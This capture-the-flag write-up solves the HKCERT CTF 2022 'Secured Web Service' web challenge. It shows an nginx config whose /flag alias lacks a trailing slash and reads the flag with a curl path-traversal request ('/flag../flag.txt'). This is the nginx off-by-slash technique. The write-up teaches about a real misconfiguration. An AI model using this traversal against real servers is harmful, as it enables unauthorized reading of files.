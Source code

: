 # Secured Web Service

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

Find the flag in `/var/www/html/flag.txt`

Web: [http://chal.hkcert22.pwnable.hk:28308/flag/](http://chal.hkcert22.pwnable.hk:28308/flag/)

Attachment: [secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip](https://file.hkcert22.pwnable.hk/secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112044224.png)

## Find the flag

**In this challenge, we can download an attachment:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# unzip secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip 
Archive:  secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip
  inflating: nginx.conf
```

**`nginx.conf`:**
```
worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include mime.types;
    default_type application/octet-stream;

    # Define custom log format to include reponse times
    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    keepalive_timeout 65;

    # Write temporary files to /tmp so they can be created as a non-privileged user
    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    # Default server definition
    server {
        listen [::]:8080 default_server;
        listen 8080 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;


        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }

    }
}
```

This web server has 1 location: `/flag`, and **it's missing the trailling slash**!

**`/flag`:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag' 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.23.2</center>
</body>
</html>
                                                                                                           
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag/'
<html>
<head>
  <title>Slash</title>
</head>

<body>
  <p>Hello World</p>
  <script>
    location.replace("https://www.youtube.com/watch?v=RQ76vkzmolQ&t=0s")
  </script>
</body>

</html>
```

**When I reach to `/flag/`, it has a JavaScript that redirects me to a rickroll YouTube video.**

**Also, in the `<title>` tag, it's `Slash`, which is a hint of missing the trailling slash!**

**After some goolging, I found this [Tweet](https://twitter.com/x0rz/status/1052899891624710145?lang=en):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045704.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045711.png)

**In Hack.lu 2018, a researcher [Orange Tsai](https://twitter.com/orange_8361) from Taiwan talked about the Nginx off-by-slash vulnerability!**

**Since we know the flag is in `/var/www/html/flag.txt` according to the challenge description, we can just `curl` the flag!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag../flag.txt'   
hkcert22{y0u_4re_4s_k1ng_4s_0r4ng3_g0_bug_hunt1ng}
```

We got the flag!

# Conclusion

What we've learned:

1. Nginx Off-By-Slash Vulnerability